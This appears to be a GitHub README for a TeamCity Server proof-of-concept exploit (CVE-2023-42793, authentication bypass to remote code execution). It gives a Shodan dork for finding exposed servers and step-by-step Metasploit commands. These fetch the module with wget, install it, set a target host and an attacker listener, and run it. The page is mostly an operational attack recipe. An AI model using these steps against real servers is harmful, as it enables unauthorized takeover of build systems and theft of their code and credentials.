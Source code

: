 # CVE-2023-42793

![](https://img.shields.io/static/v1?label=Product&message=JetBrains%20TeamCity%20Server&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=All%20versions%20of%20TeamCity%20prior%20to%20version%202023.05.4&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=Remote%20Code%20Execution&color=red)

## Shodan Dork:
```
TeamCity-Node-Id: MAIN_SERVER
```

## Description

In JetBrains TeamCity before 2023.05.4 authentication bypass leading to RCE on TeamCity Server was possible


### Usage

### Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/JetBrains_RCE/jetbrains_teamcity_rce_cve_2023_42793.rb
```
```
cp jetbrains_teamcity_rce_cve_2023_42793.rb /usr/share/metasploit-framework/modules/exploits/multi/http/jetbrains_teamcity_rce_cve_2023_42793.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/multi/http/jetbrains_teamcity_rce_cve_2023_42793.rb
```
```
set RHOSTS target_IP
```
```
set lhost attacker_IP
```
```
run
```

